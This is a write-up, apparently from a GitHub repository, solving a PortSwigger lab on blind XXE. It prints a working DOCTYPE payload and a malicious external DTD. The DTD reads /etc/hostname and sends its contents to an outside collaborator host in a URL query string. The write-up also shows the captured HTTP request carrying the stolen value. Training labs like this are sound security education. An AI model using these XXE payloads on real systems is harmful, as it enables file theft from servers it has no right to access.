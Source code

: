 # Exploiting blind XXE to exfiltrate data using a malicious external DTD

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the /etc/hostname file.

## 1st thing we do is setup a collaborator client:

4sxkcjiiiqy9dr1k8s1083qbf2lv9k.burpcollaborator.net



<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://4sxkcjiiiqy9dr1k8s1083qbf2lv9k.burpcollaborator.net/exploit.dtd"> %xxe;]>
<stockCheck><productId>1</productId><storeId>2</storeId></stockCheck>


## Second craft the response 

An example of a malicious DTD to exfiltrate the contents of the /etc/hostname file is as follows:

Put this in the response body 
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 
'http://4sxkcjiiiqy9dr1k8s1083qbf2lv9k.burpcollaborator.net/?x=%file;'>">
%eval;
%exfiltrate;

What this does is: 
*Defines an XML parameter entity called file, containing the contents of the /etc/hostname file.
*Defines an XML parameter entity called eval, containing a dynamic declaration of another XML parameter entity called exfiltrate. The exfiltrate entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the file entity within the URL query string.
*Uses the eval entity, which causes the dynamic declaration of the exfiltrate entity to be performed.
*Uses the exfiltrate entity, so that its value is evaluated by requesting the specified URL.

The attacker must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver
We are hosting this on Portswigger's provided: https://exploit-acdf1faa1fa0bae2c0e9272f01200015.web-security-academy.net/exploit.dtd

Finally, the attacker must submit the following XXE payload to the vulnerable application
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"https://exploit-acdf1faa1fa0bae2c0e9272f01200015.web-security-academy.net/exploit.dtd"> %xxe;]>


Following these steps I opened up burp collaborator and was able to get the following and submit successfully:
GET /?x=26859a009870 HTTP/1.1
User-Agent: Java/17.0.1
Host: 4sxkcjiiiqy9dr1k8s1083qbf2lv9k.burpcollaborator.net
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
